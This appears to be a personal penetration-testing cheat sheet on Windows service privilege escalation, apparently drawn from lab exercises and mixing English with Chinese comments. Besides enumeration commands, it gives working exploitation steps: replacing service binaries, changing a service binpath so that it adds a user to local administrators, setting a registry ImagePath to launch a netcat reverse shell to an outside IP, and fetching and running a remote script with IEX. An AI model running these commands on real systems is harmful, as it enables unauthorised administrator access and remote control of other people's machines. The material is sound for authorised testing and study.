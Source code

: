 # Services Info
## General Check
```powershell
sc.exe qc {$service_name} # *_PATH_* || *_START_*
service info
sc create [servicename] binpath="c:\111.exe"

icacls
Get-ACL
Get-Service
get-service  -Id ..
get-service | ? {$_.DisplayName -like 'Druva*'}

# 非RDP下Cim可能会出错
Get-CimInstance
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'servicename'}  #查看服务的启动方式
#查找查找没有引号的服务
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ # --> 最好用cmd执行

# 注册表中自动运行的二进制文件查找
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
## PowerUp
UnquotedService/ModifiableServiceBinary Check
```powershell
# PowerUp.ps1
Get-UnquotedService
# AbuseFunction 替换服务的二进制文件的模块，默认行为是创建一个名为john的新本地管理员，密码为Password123！
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'mysql' 
```
## AccessChk
针对使用于Reg键值查询及权限查看等功能
通过组查看可以修改的服务二进制文件
```powershell
#Reg查找弱键值的服务
.\accesschk.exe /accepteula "<current_user>" -kvuqsw hklm\System\CurrentControlSet\services
#查看服务权限
.\accesschk.exe /accepteula -quvcw <speicify service>
.\accesschk.exe -qlc <service_name>

accesschk.exe -ucqv <Service_Name> #Check rights for different groups

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```
## SharpUp
针对使用服务的ACLs
服务的自由访问控制列表来查看权限`HKLM\SYSTEM\CurrentControlSet\Services\`
```powershell
.\SharpUp.exe audit
```
# Running Monitor Script on Target Host
```powershell
 IEX (iwr 'http://<attack_Ip>/procmon.ps1') 
```

## Procmon.ps1
```powershell
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```
___
# Exploit
## Service *Binary* DACL Abuse
```powershell
sc.exe start windowsscheduler
Restart-Service mysql
net stop mysql
shutdown /r /t 0

# Replace
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
#Service ACL mod
icacls WService.exe /grant Everyone:F

```
## Service Path Abuse
-->[[Editable Service]]
[accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f

sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
## Reg Key Abuse
```bash
#篡改键值
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Unquoted Service Path
Base on Service Path with blank
1. **check for unquoted**
```powershell
sc.exe qc "disk sorter enterprise" C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe" #AbuseFunction
```
2. find the **CUT OFF** service path
```powershell
C:\MyPrograms\Disk --> file Replace
move c:\{$payload_download_dir}\rev-svc2.exe c:\{$writable_path}\{$exploit_services}
```
***
### Abuse DLL File
#### Replace
```powershell
...
```
#### hijack DLL Path
[Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon): 分析DLL加载情况


```powershell
$env:
dir env:
```
![[Pasted image 20240224174047.png|400]]
![[Pasted image 20240224174907.png]]

| Path                                                              |                                Example |
| :---------------------------------------------------------------- | -------------------------------------: |
| The directory from which the application loaded.                  | (C:\\Users\\Steve\\Document\\some.dll) |
| The system directory.                                             |      (C:\\Windows\\System32\\some.dll) |
| The 16-bit system directory.                                      |        (C:\\Windows\\System\\some.dll) |
| The Windows directory.                                            |                (C:\\Windows\\some.dll) |
| The current directory.                                            |                                        |
| The directories that are listed in the PATH environment variable. |         (C:\\Windows\\system32 etc...) |
